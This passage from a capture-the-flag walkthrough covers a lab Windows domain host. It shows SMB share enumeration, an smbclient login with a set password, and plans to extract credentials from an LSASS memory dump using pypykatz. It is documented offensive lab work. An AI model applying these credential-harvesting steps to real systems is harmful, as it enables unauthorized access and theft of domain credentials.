 returns nothing means should have worked!

i try winrm... still fails, lets look at smbmap again and see if this user has more permissions now:
```
ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	READ ONLY	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```

would you look at that... access to forensic now....
```
smbclient -N //10.10.10.192/forensic -U 'blackfield.local\audit2020' --password 'getPwned@123'
```

and i am in!
```
\memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020
```

this lsass.zip, winlogon.zip look like they could have creds or hashes... i grabbed everything though and looked thru them...
upon google search of lsass.zip i found:
`https://redcanary.com/threat-detection-report/techniques/lsass-memory/`

in here i read about `procdump.exe` though this has to be run on windows... i search for linux alternative... and find:
```
https://github.com/skelsec/pypykatz
```

ill prob have to start a venv and install this bad boy to run it:
```
python3 -m venv venv

source venv/bin/activate
```
